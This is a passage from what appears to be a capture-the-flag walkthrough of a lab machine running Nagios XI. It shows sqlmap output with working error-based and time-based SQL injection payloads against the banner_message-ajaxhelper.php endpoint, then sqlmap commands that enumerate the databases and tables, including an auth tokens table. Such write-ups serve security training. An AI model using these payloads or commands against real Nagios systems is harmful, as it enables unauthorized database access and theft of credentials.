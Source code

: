         Type: error-based
        Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
        Payload: id=3 OR (SELECT 7131 FROM(SELECT COUNT(*),CONCAT(0x7171787071,(SELECT (ELT(7131=7131,1))),0x7162766271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)&action=acknowledge_banner_message
    
        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: id=3 AND (SELECT 4440 FROM (SELECT(SLEEP(5)))LDBp)&action=acknowledge_banner_message
    ---
    ...[snip]...
    

#### Database Enumeration

From here I can enumerate the database. There are two DBs:

    
    
    oxdf@hacky$ sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php" --data="id=3&action=acknowledge_banner_message" -p id --cookie "nagiosxi=bspu3ilq508jivkicfqofjo29g" --batch --threads 10 --dbs
    ...[snip]...
    available databases [2]:
    [*] information_schema
    [*] nagiosxi
    ...[snip]...
    

The interesting one is `nagiosxi`, which has 22 tables:

    
    
    oxdf@hacky$ sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php" --data="id=3&action=acknowledge_banner_message" -p id --cookie "nagiosxi=bspu3ilq508jivkicfqofjo29g" --batch --threads 10 -D nagiosxi --tables
    ...[snip]...
    Database: nagiosxi
    [22 tables]
    +-----------------------------+
    | xi_auditlog                 |
    | xi_auth_tokens              |
    | xi_banner_messages          |
    | xi_cmp_ccm_backups          |
    | xi_cmp_favorites            |
    | xi_cmp_nagiosbpi_backups    |
    | xi_cmp_scheduledreports_log |
    | xi_cmp_trapdata             |
    | xi_cmp_trapdata_log         |
    | xi_commands                 |
    | xi_deploy_agents            |
    | xi_deploy_jobs              |
    | xi_eventqueue               |
    | xi_events                   |
    | xi_link_users_messages      |
    | xi_meta                     |